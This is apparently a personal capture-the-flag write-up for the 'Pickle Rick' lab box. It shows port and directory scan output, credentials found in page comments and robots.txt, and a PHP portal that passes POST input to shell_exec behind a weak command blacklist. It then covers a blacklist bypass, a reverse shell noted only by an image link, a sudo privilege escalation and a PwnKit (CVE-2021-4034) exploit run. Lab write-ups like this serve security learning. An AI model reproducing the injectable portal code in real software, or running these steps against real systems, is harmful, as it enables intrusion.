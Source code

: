 # Box Name
## Pickle Rick
---

## Overview
### A Rick and Morty CTF. Help turn Rick back into a human!
---
* [[#Enumeration]]

* [[#Initial Foothold]]

* [[#Privilege Escalation]]

---
## Enumeration
---
## nmap
```
rustscan -r 1-65535 -a 10.10.18.212 --ulimit 9000 -- -sCV -oN nmap/initial.md
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
🌍HACK THE PLANET🌍

[~] The config file is expected to be at "/home/scott/.rustscan.toml"
[~] Automatically increasing ulimit value to 9000.
Open 10.10.18.212:22
Open 10.10.18.212:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-10 13:18 UTC

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9d:5d:4d:ed:74:89:84:8c:91:9b:35:df:3b:3f:2c:25 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD3QYJk2yPxLTyDsJd5xH1/u7GF06/A94fiHeF4jj4Ts5xUhCnfEXYsedM9A/2ZLWukqDmopCnfwZsSvr/NSOc83W42zh14sMwrXQRxqW5wKRLFp6zXpUExNRN648avxBzDxcwhNmZchNwLVbqlSR3mibJDBYrT6wSw3PO6mKPJO9YDHUrhZoSLUoMvqVs1EZNTeZfjr03aPYw1zmBSDDL11Z90rVzd/e7P0cCuhWIrZRrhsuI34pfFt1Tb3+3S2HhdhkM3HQPwY9mt1jlb11seUIZw9nSDU6zGPrmRPRnxvLcoSSCxOpZrvyzH4PE9BQzHbcV4ap9wHMORATDLAI8z
|   256 3b:8b:c3:c7:7e:eb:bf:6f:2e:67:18:38:80:e2:e6:25 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBH3QKSa6GQm06023XFb15Hs7izh3sZ2qmbDXltaSItF58PwcIEdUK3L1dTFkPyyWwtHsgh3Tzy1+mOqD7GYctXk=
|   256 ee:9b:52:8c:8c:92:56:9f:b5:0f:79:a9:cd:2c:32:a1 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJYotyjMAQXNAQr6PbLLBd0mVe6AXnTb+fWOKiRysFjH
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## ferox scan
```
ferox -u http://10.10.18.212 -w ~/SecLists/Discovery/Web-Content/common.txt -t 60 -x html,txt,php -C 403 -o logs/ferox_vhost.md 

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 1.10.3
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.18.212
 🚀  Threads               │ 60
 📖  Wordlist              │ /home/scott/SecLists/Discovery/Web-Content/common.txt
 🆗  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405]
 🗑  Status Code Filters   │ [403]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/1.10.3
 💾  Output File           │ logs/ferox_vhost.md
 💲  Extensions            │ [html, txt, php]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 ⏯   Press [ENTER] to pause|resume your scan
──────────────────────────────────────────────────
200        1l        1w       17c http://10.10.18.212/robots.txt
200       25l       61w      882c http://10.10.18.212/login.php
200       37l      110w     1062c http://10.10.18.212/index.html
302        0l        0w        0c http://10.10.18.212/portal.php
301        9l       28w      313c http://10.10.18.212/assets
302        0l        0w        0c http://10.10.18.212/denied.php

```

- ## found username in index.html
```html
<!--
    Note to self, remember username!
    Username: R1ckRul3s
  -->

```
- ## found password in /robots.txt
```
Wubbalubbadubdub
```

- ## /login.php
![[Pasted image 20220310134827.png]]

- ### login creds 
	- R1ckRul3s:Wubbalubbadubdub

---
## Initial Foothold
---
- ## http://10.10.18.212/portal.php
	- ![[Pasted image 20220310132613.png]]

	- appears to be a cli web interface 
	- downloaded portal.php
	```php
	<?php
      function contains($str, array $arr)
      {
          foreach($arr as $a) {
              if (stripos($str,$a) !== false) return true;
          }
          return false;
      }
      // Cant use cat
      $cmds = array("cat", "head", "more", "tail", "nano", "vim", "vi");
      if(isset($_POST["command"])) {
        if(contains($_POST["command"], $cmds)) {
          echo "</br><p><u>Command disabled</u> to make it hard for future <b>PICKLEEEE RICCCKKKK</b>.</p><img src='assets/fail.gif'>";
        } else {
          $output = shell_exec($_POST["command"]);
          echo "</br><pre>$output</pre>";
        }
      }

    ?>

	```
	- ### gooled verious ways to read the contents of a file  in linux
		- ### found  **nl**
		The nl command, short for **number lines**, is very similar to the cat command, with the exception that the nl command numbers the output lines by default.
		Although the nl utility is primarily used for numbering output lines, you can also choose not to number the lines using the **-b** option as follows.
![[Pasted image 20220310150620.png]]

![[Pasted image 20220310151245.png]]

![[Pasted image 20220310150948.png]]

![[Pasted image 20220310151130.png]]
- ### bash one liner [[revshell]] 
![[Pasted image 20220310151412.png]]

# linpeas output
```bash
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
Matching Defaults entries for www-data on ip-10-10-45-0.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-45-0.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL

```
---
## Privilege Escalation
----
- ## sudo /bin/bash
```bash
root@ip-10-10-45-0:~# cat 3rd.txt
3rd ingredients: fleeb juice
root@ip-10-10-45-0:~# cat /home/rick/second\ ingredients 
1 jerry tear
root@ip-10-10-45-0:~# cat /var/www/html/Sup3rS3cretPickl3Ingred.txt 
mr. meeseek hair
root@ip-10-10-45-0:~# 
```

# CVE-2021-4034
```bash
www-data@ip-10-10-45-0:/tmp$ gcc pwnkit.c -o pwnd
www-data@ip-10-10-45-0:/tmp$ ./pwnd
# bash
root@ip-10-10-45-0:/tmp# 
```